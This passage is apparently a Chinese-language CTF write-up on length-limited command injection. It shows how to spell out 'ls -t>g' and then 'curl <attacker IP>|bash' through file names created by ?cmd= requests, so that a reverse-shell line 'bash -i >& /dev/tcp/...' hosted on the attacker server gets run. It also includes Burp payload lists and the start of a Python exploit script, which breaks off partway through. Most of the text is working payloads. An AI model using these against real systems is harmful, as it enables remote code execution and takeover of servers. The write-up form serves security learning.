```
?cmd=>ls\\   # 创建 ls\
?cmd=ls>_    # 创建 _ 文件，文件内容为 _ (换行) ls\  # 这里先写入ls\是因为最后排序的时候ls不会在最前面
?cmd=\ \\    # 创建 \空格 文件
?cmd=>-t\\   # 创建 -t\   文件
?cmd=>\>g    # 创建  >g   文件
?cmd=ls>>_   # 将当前目录文件按字典序写入 _ 文件
# 这里的字典序是特殊符号在ls\的前面 所以在生成ls\之后我们要先ls>_ 保证ls\在最前面
```

![daGaHH.png](https://s1.ax1x.com/2020/08/22/daGaHH.png)

这时候只要执行`sh _`,就可以执行`ls -t>g`了。

我的10.188.2.20/index.html文件内容为:

	bash -i >& /dev/tcp/xx.xx.xx.xx/12345 0>&1   # 反弹shell

之后就可以把`curl xx.xx.xx.xx|bash`写入到 g 文件中了，在之后直接`sh g`，就可以反弹shell了。

(这里的xx.xx.xx.xx是我们的公网服务器ip，然后再服务器上监听12345端口。)

用burp抓包，

![darG8g.png](https://s1.ax1x.com/2020/08/22/darG8g.png)

```
>sh
>ba\\
>\|\\
>4x\\
>0.\\
>2x\\
>7.\\
>5\\
>3.\\
>1x\\
>\ \\
>rl\\
>cu\\
sh _
sh g
```

可以看到我们的服务器上已经拿到反弹回的shell了。

![dac8wn.png](https://s1.ax1x.com/2020/08/22/dac8wn.png)	

这里贴上大佬的脚本：

```
import requests
from time import sleep
from urllib import quote

payload = [
    # generate `ls -t>g` file
    '>ls\\', 
    'ls>_', 
    '>\ \\', 
    '>-t\\', 
    '>\>g', 
    'ls>>_', 

    # generate `curl orange.tw.tw|python`
    # generate `curl 10.188.2.20|bash` 
    '>sh\ ', 
    '>ba\\', 
    '>\|\\',
```